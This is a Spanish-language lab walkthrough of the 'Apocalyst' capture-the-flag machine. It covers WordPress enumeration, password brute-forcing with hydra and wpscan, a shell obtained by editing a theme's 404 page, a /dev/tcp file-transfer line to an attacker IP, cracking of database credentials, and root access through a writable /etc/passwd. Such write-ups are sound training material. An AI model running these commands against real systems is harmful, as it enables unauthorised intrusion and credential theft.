# Apocalyst



- Whatweb
http://apocalyst.htb [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.129.31.90], JQuery[1.12.4], MetaGenerator[WordPress 4.8], PoweredBy[WordPress,WordPress,], Script[text/javascript], Title[Apocalypse Preparation Blog], UncommonHeaders[link], WordPress[4.8]
- Wordpress 1.3 (80%)
- PHP
- MySQL


```bash
wpscan --url http://apocalyst.htb
```

No nos da mucha info
NADA a priori

- Enumeramos subdominios
```bash
wfuzz -c -t 200 --hc=200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -H "host: FUZZ.apocalyst.htb" http://apocalyst.htb
```

- Buscamos qué es MetaGenerator, y vemos que es un plugin de wp que evita enviar versiones en las querys de scripts para dar menos info acerca del CMS
Posible vector -> No vemos ninguna vulnerabilidad conocida a priori sobre este plugin

- Vemos un usuario que publica que es **falaraki**

- Enumeramos recursos
```bash
wfuzz -c -t 200 -L --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://apocalyst.htb/FUZZ/
```

-L: para que siga el redirect
Nos reporta muchísimos recursos con la misma foto y palabras que parece que forman una oración o algo similar
- Todos tienen *157 Ch* por lo que pensamos que todos los recursos tienen la misma imagen



Nos la descargamos e intentamos ver si tiene algo dentro pero no parece

- /xmlrpc.php -> solo acepta peticiones POST

- /wp-content donde conseguimos enumerar más información



No aparecen plugins a primera vista, y en uplaods vemos las imágenes con distintos tamaños



Vamos a coger la que no es recortada a ver si tiene algo de info
```bash
exiftool apoc.jpg
```



No parece haber mucho interesante

- /wp-includes
Vemos muchos archivos php pero no podemos ver el contenido de ninguno a priori
- rest-api/endpoints -> Interesante pero tampoco vemos el content

- Intentamos enumerar **falaraki** accediendo al */wp-login.php*
Es un usuario correcto
Con
```bash
searchsploit ssh user enumeration
```

podemos comprobar que existe como usuario en la máquina víctima también

- Probamos a ocultar con *--hh=157* los recursos que tengan esta longitud para ver si hay alguno con más contenido y por lo tanto sea sospechoso pero no encontramos nada
Intentaremos enumerar de otra forma

- Nos vamos a crear con **cewl** un diccionario basado en todas las palabras que hay en la web que no son pocas, hay mucho texto e incluso en otros idiomas
```bash
cewl -w diccionario.txt http://apocalyst.htb/
```

535 palabras

- Lanzamos el escaneo
```bash
wfuzz -c -t 200 -L --hc=404 --hh=157 -w diccionario.txt http://apocalyst.htb/FUZZ/
```

Vemos una con 175



Rightiousness

- Nos descargamos la imagen y hacemos
```bash
steghide extract -sf image.jpg
```



Nos descarga un *list.txt* -> Es un diccionario con 486 palabras
Pueden ser posibles contraseñas para el usuario falaraki

- Intentaremos forcebrutear por ssh y wordpress
```bash
hydra -l falaraki -P list.txt ssh://apocalyst.htb
```

- Nada
```bash
wpscan --url http://apocalyst.htb -U falaraki -P list.txt --password-attack wp-login
```

- **falaraki:Transclisiation**

- Editamos el Appearance/Editor.php/



Cargaremos la pág principal para buscar un recurso que no exista y ver ese *oops!" that page cant be found*
- Vemos que la pag carga los posts con la url
```bash
http://apocalyst.htb/?p=X
```

Nos pondremos a la escucha en nuestro kali con nc y escribiremos un valor para el parámetro **p** que no exista y que wordpress cargue el *404.php*
```bash
http://apocalyst.htb/?p=-1
```

www-data

## Escalada

- En */var/www/html/testdir.htb/index.html* -> Vemos un vhost distinto **www.virtualhost2.com**
Lo añadimos al /etc/hosts y vemos que carga la misma pág en principio

- También vemos un archivo  */var/www/latest.tar.gz* que nos pasaremos a kali
```bash
cat latest.tar.gz > /dev/tcp/10.10.16.179/4444
nc -nlvp 4444 > latest.tar.gz
```

Lo descomprimimos
```bash
gunzip latest.tar.gz
tar -xf latest.tar
```

Se nos crea un directorio wordpress

- Dentro del propio directorio encontramos */var/www/html/apocalyst.htb/wp-config.php* con credenciales de la base de datos



root:Th3SoopaD00paPa5S!

- Intentamos ver credenciales reutilizadas pero no se usa para root ni para falaraki
Entramos a mysql
```bash
mysql -u root -p
```

Th3SoopaD00paPa5S!
```sql
select user_login,user_pass from wp_users;
```

falaraki:$P$BnK/Jm451thx39mQg0AFXywQWZ.e6Z.

-
```bash
hashid -m hash
```



Intentamos crackearla
```bash
hashcat hash -m 400 /usr/share/wordlists/rockyou.txt
```

- NO PARECE

- Vemos otra tabla interesante
```sql
select User,password_expired,authentication_string from user;
```



root:\*451082B7400A69C50875D28BA877F42D9B5169E0
```bash
hashid -m "*451082B7400A69C50875D28BA877F42D9B5169E0"
```



- No parece

- Capabilites nada
- sudo -l nada
- Permisos suid nada
- id nada

- Vamos a probar a filtrar por archivos editables por www-data quitando los directorios a los que le hayamos echado un ojo o que sospechemos que no contienen nada delicado
```bash
find / -writable 2>/dev/null | grep -vE "/var|/dev|/proc"
```

Vemos que /etc/passwd es editable

- Crearemos una contraseña compatible con el sistema de linux
Buscamos el método de encriptación en */etc/login.defs*
```bash
cat /etc/login.defs | grep ENCRYPT_METHOD
```



Usamos openssl para crear la contraseña en formato unix
```bash
openssl passwd
```

Escribimos *hola* por ejemplo



Comprobamos el formato
```bash
hash-identifier
```



- Lo añadimos al /etc/passwd



-
```bash
sudo su
```

-> hola
root
